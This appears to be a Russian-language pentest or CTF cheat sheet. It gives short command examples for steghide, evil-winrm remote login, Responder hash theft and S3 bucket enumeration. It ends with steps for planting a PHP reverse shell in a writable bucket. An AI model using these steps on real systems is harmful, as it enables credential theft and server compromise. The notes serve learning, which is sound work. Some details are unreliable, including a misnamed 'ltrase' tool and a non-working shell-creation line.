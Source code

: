 **`xdg-open`** - позволяет открыть файл ( например картинку ) или URL в предпочтительном для него окружении.
**`steghide`** - ищет закодированный текст в нетекстовых файлах ( например картинках )
> ``` 
> steghide --info image.jpg
> steghide extract -sf image.jpg
> ```

**`ltrase`** - читает бинарные файлы как cat 

`evil-winrm` - подключиться к удаённому хосту windows. пример:
> ``` 
> evil-winrm -i <ip> -u <username> -p <userpassword>
> ```
## WEB

### Responder
`responder` - приитворяется DHCP сервером или другой конечной сущьностью, чтобы красть хэши. Пример:
>``` 
responder -I <ip adress interface> -Pdv
>```
>или
>``` 
>responder -I tun0 -v
>```

### AWS
Существует саб-домин - **s3**. Это облачное хранилище для вещей в контейнерах. Корзины **AWS S3** имеют различные сценарии использования, включая резервное копирование и хранение, хостинг мультимедиа, доставку программного обеспечения, статический веб-сайт и тд. Файлы, хранящиеся в корзине Amazon S3, называются объектами S3.
**`awscli`** позволяет взаимодействовать с этой корзиной.
```
aws configure # первоначальная настройка. Можно установить значения temp.
```
Мы можем перечислить все корзины S3, размещенные на сервере, с помощью команды ls:
```
aws --endpoint=http://s3.<url> s3 ls
```
Мы также можем использовать команду ls для перечисления объектов и общих префиксов в указанном бакете.
```
aws --endpoint=http://s3.<url> s3 ls s3://<url>
```
Далее можно создать файл и иньекцией:
```
php_reverse_shell > shell.php
```
и загрузить его на уязвимый сервер:
```
aws --endpoint=http://s3.<url> s3 cp shell.php s3://<url>
```
